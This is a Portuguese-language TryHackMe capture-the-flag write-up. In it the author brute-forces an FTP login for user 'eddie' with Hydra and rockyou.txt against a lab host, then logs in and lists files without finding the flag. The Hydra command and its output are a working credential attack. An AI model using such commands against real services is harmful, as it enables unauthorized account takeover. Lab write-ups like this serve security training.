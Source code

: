 ### Hidra + Telnet
> Pergunta: Descobrimos dois nomes de usuário usando engenharia social: `eddie`e `quinn`. Qual é a bandeira escondida em um desses dois arquivos de conta e acessível via FTP? 

### eddie
Comecei testando o usuário `eddie` utilizando o Hydra para força bruta no serviço FTP. Após alguns segundos, encontrei a senha:
```sh
┌──(c3n0r4㉿kali)-[~/tryhackme/room/netsecchallenge]
└─$ hydra -l eddie -P /usr/share/wordlists/rockyou.txt ftp://10.10.26.196 -s 10021           
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-13 18:12:37
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.26.196:10021/
[10021][ftp] host: 10.10.26.196   login: eddie   password: ******
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-13 18:12:50
```

Conectei ao servidor FTP com as credenciais encontradas. Naveguei até o diretório inicial e listei os arquivos. Apesar de acessar o conteúdo, não encontrei nenhuma flag escondida no diretório:
```sh
┌──(c3n0r4㉿kali)-[~/tryhackme/room/netsecchallenge]
└─$ ftp 10.10.26.196 10021
Connected to 10.10.26.196.
220 (vsFTPd 3.0.5)
Name (10.10.26.196:c3n0r4): eddie 
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
ftp> ls -larth
229 Entering Extended Passive Mode (|||30056|)
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001         3771 Sep 14  2021 .bashrc
-rw-r--r--    1 1001     1001          807 Sep 14  2021 .profile
-rw-r--r--    1 1001     1001          220 Sep 14  2021 .bash_logout
drwx------    2 1001     1001         4096 Sep 20  2021 .cache
drwxr-xr-x    3 1001     1001         4096 Sep 20  2021 .
drwxr-xr-x    3 1001     1001         4096 Sep 20  2021 ..
226 Directory send OK.
ftp> exit
221 Goodbye.
```
